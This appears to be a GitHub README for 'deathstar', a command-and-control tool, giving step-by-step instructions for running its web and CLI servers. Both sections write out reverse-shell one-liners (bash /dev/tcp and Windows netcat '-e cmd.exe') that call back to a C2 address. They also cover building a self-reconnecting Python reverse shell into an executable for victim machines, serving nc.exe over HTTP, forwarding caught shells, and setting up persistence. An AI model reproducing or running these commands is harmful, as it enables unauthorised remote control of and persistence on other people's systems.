 # deathstar
Build and understand C2 infrastructure.

`Deathstar` has a webpage, or a CLI based C2 connection manager.

`stardestroyer.py` is the "preffered" option to connecting to the C2 server.

`converter.sh` will convert `stardestroyer.py` into an EXE.

# Web based C2
![image](https://github.com/user-attachments/assets/e01272a6-1e5a-416c-8b56-45460317a349)

# CLI based C2
![image](https://github.com/user-attachments/assets/e574c863-f44f-47fb-ad8a-7c3148b247e2)

# Download deathstar

```git clone github.com/bwithe/deathstar```

# Web C2 server 
1. Start the server
    - `python3 deathstar-web.py`
2. Open link in web browser
    - `firefox 127.0.0.1:5000`
3. Have CLIENT connect to C2
    - Linux / MacOS
      - BASH
          - `bash -c "bash -i >& /dev/tcp/<C2-SERVER-IP>/9999 0>&1"`
      - Python reverse shell
          - This will continue to connect to the C2 server even after it 'drops'
          - Modify the 'SERVER_IP = ' in `stardestroyer.py`   
          - `bash converter.sh stardestroyer.py`
          - Copy `stardestoryer` to CLIENT
          - `chmod +x stardestroyer`
          - `./stardestroyer`
    - Windows
        - NETCAT
            - `C:\Windows\Temp\nc.exe -e cmd.exe $C2-IP 9999`
        - If your C2 OS is Kali, you can host a python http.server with nc.exe and run `stardestroyer.ps1`
            - On Kali
                - `find / -name nc.exe 2>/dev/null`
                - `sudo cp /usr/share/windows-resources/binaries/nc.exe .`
                - `python3 -m http.server 80`
            - On Windows
                - Powershell.exe
                - `.\stardestroyer.ps1`
4. Start your listener 
    - `nc -nvlp 4444`
5. Forward the connection to your listener
    - On the webpage, type the IP of the listening device, and select an OS from the drop down, then click forward.
6. Catch the connection
    - Once you've caught the connection, begin setting up persistence.
7. Wash, rince, repeat.

# CLI C2 server
1. Start the server
    - `python3 deathstar-term.py`
2. Have CLIENT connect to C2
    - Linux / MacOS
      - BASH
          - `bash -c "bash -i >& /dev/tcp/<C2-SERVER-IP>/9999 0>&1"`
      - Python reverse shell
          - This will continue to connect to the C2 server even after it 'drops'
          - Modify the 'SERVER_IP = ' in `stardestroyer.py`   
          - `bash converter.sh stardestroyer.py`
          - Copy `stardestoryer` to CLIENT
          - `chmod +x stardestroyer`
          - `./stardestroyer`
    - Windows
        - NETCAT
            - `C:\Windows\Temp\nc.exe -e cmd.exe $C2-IP 9999`
        - If your C2 OS is Kali, you can host a python http.server with nc.exe and run `stardestroyer.ps1`
            - On Kali
                - `find / -name nc.exe 2>/dev/null`
                - `sudo cp /usr/share/windows-resources/binaries/nc.exe .`
                - `python3 -m http.server 80`
            - On Windows
                - Powershell.exe
                - `.\stardestroyer.ps1`
3. Start your listener 
    - `nc -nvlp 4444`
4. Forward the connection to your listener
    - On the CLI, list the connections.
      - Select `2)` to forward.
      - Specify the `ID` of the `CLIENT` you'd like to forward.
      - Then, type the IP of your `LISTENING` device.
5.Catch the connection
    - Once you've caught the connection, begin setting up persistence.
6. Wash, rince, repeat.

